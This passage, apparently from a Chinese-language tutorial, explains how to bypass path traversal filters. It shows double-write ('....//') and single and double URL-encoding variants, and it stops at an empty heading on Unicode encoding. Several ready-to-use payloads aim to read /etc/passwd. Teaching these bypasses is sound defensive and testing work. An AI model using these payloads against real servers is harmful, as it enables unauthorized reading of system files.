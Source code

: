 

### 双写绕过：

有时候的防御措施时将../转化为空，我们就可以采用双写绕过

如果在....//中，将../替换为空，最后的路径就变成：

..**../**/ => ../

所以我们要构造为

```
?filename=....//....//....//etc/passwd
```

### 编码绕过

#### URL编码绕过

采用URL编码来绕过服务器对 . 或者 / 的检测

```
.  => %2e

/  => %2f

%  => %25 (双重URL编码)
```

```
?filename=../../../etc/passwd
```

以下所有格式都是对上面的代码进行编写

例如单独对/进行编码构造为

```
?filename=..%2f..%2f..%2fetc/passwd
```

单独对.进行编码

```
?filename=%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

对./一起进行编码

```bash
?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

双重URL编码，即对%进行编码

```bash
?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

#### 16 位 Unicode 编码

